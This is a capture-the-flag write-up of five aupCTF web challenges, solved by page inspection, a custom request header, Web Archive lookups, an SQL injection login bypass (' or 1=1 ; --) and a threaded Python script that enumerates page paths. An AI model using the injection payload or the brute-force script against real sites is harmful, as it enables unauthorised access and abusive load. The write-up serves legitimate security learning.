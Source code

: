 # Web challenges from aupCTF
- [Starter](#starter)
- [SQLi - 1](#sqli-1)
- [Header](#header)
- [Time Heist](#time-heist)
- [Directory](#directory)

5/7 challenges solved

-----

## Starter

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/6582dbba-0cac-4bec-ad06-f4c37c2be3f1)

Link: [https://challs.aupctf.live/starter/](https://challs.aupctf.live/starter/){:target="_blank" rel="noopener"}

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/30b5e614-f821-47e4-bd2a-712ce5ecb0bc)

Flag is randomly placed in the site. I removed all the CSS styling which made the flag.

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/7525456f-aaf6-4168-b69e-26c387eb5805)

Flag: `aupCTF{w45n't-th47-h4rd-r1gh7}`

-----

## SQLi-1

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/fbd66fca-dbce-4038-b462-49fc7228ba51)

Link: [https://challs.aupctf.live/sqli-1/](https://challs.aupctf.live/sqli-1/){:target="_blank" rel="noopener"}

I tried base `admin` as username and `' or 1=1 ; --` as password.

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/10d62981-6ac8-49c8-9092-c15c3f18a3bf)

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/ed2890ca-a957-4e16-aa35-9507e52295e3)

Flag: `aupCTF{3a5y-sql-1nj3cti0n}`

-----
## Header

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/5dadbc34-0f33-45c2-9120-f6d13d8bbd2f)

Link: [https://challs.aupctf.live/header/](https://challs.aupctf.live/header/){:target="_blank" rel="noopener"}

Going to site shows some Django python code:

```py
def headar_easy(request):
    if request.META.get('HTTP_GETFLAG') == 'yes':
        context = {
            'flag': '[REDACTED]',
        }
        
        return render(request, 'aa/flag.html', context)
    
    return render(request, 'aa/index.html')
```

So I sent a request wih the header `GETFLAG` being `yes` using [Postman](https://web.postman.co/){:target="_blank" rel="noopener"}

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/f1fb6a9e-d168-44d0-b30d-50432909c9c8)

Flag: `aupCTF{cust0m-he4d3r-r3qu3st}`

-----

## Time-Heist

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/84e9f2ff-d17d-44de-80a9-869611a002a9)

Hint: try looking for a tag named flag

Link: [https://iasad.me/tags](https://iasad.me/tags){:target="_blank" rel="noopener"}

I went to [Web archive](https://archive.org/) to find the possible tag named flag. There was one recently 
[https://web.archive.org/web/20230605190025/https://iasad.me/tags](https://web.archive.org/web/20230605190025/https://iasad.me/tags){:target="_blank" rel="noopener"}

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/482e2153-9a2e-4ef2-9760-61ae56d1aa64)

Going to [https://web.archive.org/web/20230601061319/https://iasad.me/tags/flag/](https://web.archive.org/web/20230601061319/https://iasad.me/tags/flag/){:target="_blank" rel="noopener"} and then to [https://web.archive.org/web/20230601045526/https://iasad.me/blogs/flag/](https://web.archive.org/web/20230601045526/https://iasad.me/blogs/flag/){:target="_blank" rel="noopener"} and looking at source:

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/6659b5bf-bc26-4491-8edf-36e72a7d6ec1)

Flag: `aupCTF{y0u-ar3-4-tru3-t1m3-tr4v3l3r}`

-----

## Directory

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/f0d8d6c6-5cf9-4b67-b64d-228e087a2661)

Link: [https://challs.aupctf.live/dir/](https://challs.aupctf.live/dir/){:target="_blank" rel="noopener"}

![image](https://github.com/jeromepalayoor/ctf-writeups/assets/63996033/294945b8-7605-427e-9017-f9377594fd49)

The flag is in one of the 1000 links, I created a python script to brute force it using threading:

```py
import requests
import threading

url = "https://challs.aupctf.live/dir/page/"


def do(range_):
    for i in range(range_,range_+100):
        r = requests.get(url + str(i) + "/")
        if "No flag for you" not in r.text:
            print(i,r.text)


threads = []
for i in range(0, 10000, 100):
    t = threading.Thread(target=do, args=(i,))
    threads.append(t)
    t.start()
```

Within 2 seconds it got the flag at [page 712](https://challs.aupctf.live/dir/page/712/){:target="_blank" rel="noopener"}:

```
712 <!DOCTYPE html>
<html>
<head>
    <title>You Found Me</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 0;
        }
        h1, h2{
            text-align: center;
            margin-top: 50px;
        }

    </style>
</head>
<body>
    <h1>Here is your flag, You deserve it</h1>
    <br>
    <h2>The flag is: aupCTF{d1r3ct0r13s-tr1v14l-fl4g}</h2>
</body>
</html>
```

Flag: `aupCTF{d1r3ct0r13s-tr1v14l-fl4g}`
